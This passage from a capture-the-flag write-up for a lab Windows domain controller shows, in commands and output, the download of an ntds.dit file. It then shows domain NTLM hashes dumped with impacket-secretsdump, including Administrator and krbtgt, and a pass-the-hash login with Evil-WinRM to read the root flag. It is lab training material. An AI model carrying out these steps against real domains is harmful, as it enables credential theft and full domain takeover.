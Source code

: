 *Verify the presence of the copied `ntds.dit` file in the `C:\Windows\temp` directory and downloaded the file*
```
*Evil-WinRM* PS C:\Windows\temp> ls

Directory: C:\Windows\temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        12/10/2024   4:42 PM            624 2024-12-10_16-42-48_BABYDC.cab
-a----        12/10/2024   4:42 PM             96 diskshadow.dsh
-a----        12/10/2024   4:16 PM       16777216 ntds.dit
-a----        12/10/2024   4:17 PM            102 silconfig.log


*Evil-WinRM* PS C:\Windows\temp> download ntds.dit
Info: Downloading C:\Windows\temp\ntds.dit to ntds.dit
Info: Download successful!
```

Finally we used **Impacket's `secretsdump`** tool to extract credentials from the `ntds.dit` file.  *We had the SYSTEM file from the previous download*

```
destiny@falcon:~/vulnlab.com/Baby-W$ impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies            [*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                        
[*] Searching for pekList, be patient                                             
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit                                                                                                                      
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:8cbfd74084914e396b1c6fd420d3fe5e:::                                                                                    
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::                      
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
```

Used **Evil-WinRM** to connect as Administrator using the extracted NTLM hash and get the root flag:

```
destiny@falcon:~/vulnlab.com/Baby-W$ evil-winrm -i 10.10.70.114 -u "administrator" -H "ee4457ae59f1e3fbd764e33d9cef123d"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
VL{9000cab96bcf62e99073ff5f6653ce90}
```

---